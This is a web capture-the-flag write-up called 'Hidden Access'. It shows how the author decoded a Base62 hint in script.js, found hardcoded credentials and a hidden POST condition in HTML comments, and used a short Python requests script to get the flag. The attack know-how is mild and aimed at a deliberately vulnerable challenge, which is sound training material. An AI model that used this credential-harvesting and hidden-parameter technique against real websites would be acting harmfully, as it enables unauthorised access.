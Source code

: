 ## 🕵️ Web CTF Challenge Writeup: *Hidden Access*

![Overview](assets/Overview.png)

### 🧩 Challenge Summary

The goal was to uncover a hidden login endpoint, bypass a basic frontend form, and extract a hidden flag through backend logic inspection.

---

### 🔍 Step-by-Step Walkthrough

#### 1. **Initial Recon and JavaScript Inspection**

![Overview](assets/Website.png)

![Overview](assets/SourceCode.png)

While examining the site assets, we discovered an interesting line in `script.js`:

```
console.log("The secret might lie at VioKZgIPYyrKc3NoFyYg43spccr0vOrW");
```

![Overview](assets/ScriptJS.png)

This string looked encoded. Upon investigation, it was **Base62 encoded**.

![Overview](assets/Dcode.png)

#### 2. **Decoding the Secret URL**

Using a Base62 decoder, we found:

```
/login.php?secret=hidden
```

![Overview](assets/Base62.png)

This hinted at a hidden login endpoint.

---

#### 3. **Source Code Review**

![Overview](assets/Webpage.png)

Accessing `/login.php?secret=hidden`, the page displayed a simple HTML login form. Viewing the **HTML source** revealed:

![Overview](assets/Source2.png)

```
<!-- username:admin123456 -->
<!-- password:admin123456 -->
...
<!-- if($_SERVER["REQUEST_METHOD"]=="POST"&&isset($_POST['reveal_flag'])&&$_POST['reveal_flag']=='true') -->
```

We found:

* Hardcoded credentials in comments.
* A commented-out line showing a secret condition: a `POST` request must include `reveal_flag=true`.

---

#### 4. **Crafting the Exploit**

Using Python and the `requests` module, we crafted the following script:

```
import requests

url = 'https://starfish-app-6tnq7.ondigitalocean.app/login.php?secret=hidden'

data = {
    'username': 'admin123456',
    'password': 'admin123456',
    'reveal_flag': 'true'
}

r = requests.post(url, data=data)
print(r.text)
```

---

### 🏁 Result

![Flag](assets/Flag.png)

Running the script successfully revealed the flag:

```
flag{y0u_g0t_!t}
```
---

## 👤 Author

### ~ **Basim Mehdi**  
### ~ *Team: 0xFAILURES*